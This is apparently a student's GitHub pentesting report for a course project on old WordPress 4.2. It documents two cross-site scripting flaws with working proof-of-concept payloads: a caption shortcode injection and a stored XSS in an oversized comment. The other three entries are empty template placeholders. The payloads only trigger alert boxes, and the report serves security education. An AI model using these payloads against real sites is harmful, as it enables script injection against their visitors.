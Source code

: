 # Network-Security
Network Security
# Project 7 - WordPress Pentesting

Time spent: **X** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) Authenticated Shortcode Tags Cross-Site Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.5
  - [ ] GIF Walkthrough: ![xss2](https://user-images.githubusercontent.com/15334096/38174100-32c79894-3596-11e8-8c2c-d92ca6c49038.gif)
  - [ ] Steps to recreate: Create a post or page. Click on text instead of visual and insert a caption with the XSS attack. I used an alert. ``` TEST!!![caption width="1" caption='<a href="' ">]<a href="http://onMouseOver='alert(2)'">Click me</a>```
  - [ ] Affected source code: <img width="498" alt="screen shot 2018-04-01 at 10 15 10 am" src="https://user-images.githubusercontent.com/15334096/38174105-5cef7ae2-3596-11e8-8a7f-0dcd5815c6f4.png">
    - [Link 1](http://blog.knownsec.com/2015/09/wordpress-vulnerability-analysis-cve-2015-5714-cve-2015-5715/)
1. (Required) Unauthenticated Stored XSS
  - [ ] Summary: Created a cross site scripting attack using a window alert
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.1
  - [ ] GIF Walkthrough: ![xss](https://user-images.githubusercontent.com/15334096/38169106-dac0eaae-352e-11e8-9e42-2c37fdc20bd1.gif)
  - [ ] Steps to recreate: Post a reply on one of the pages. Insert javascript for alert: ``` <a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>```  and make sure message is bigger than 64kb. Then when submitted, an alert box should appear.
  - [ ] Affected source code: 

    - [Link 1](http://klikki.fi/adv/wordpress2.html)
1. (Required) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php) 

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
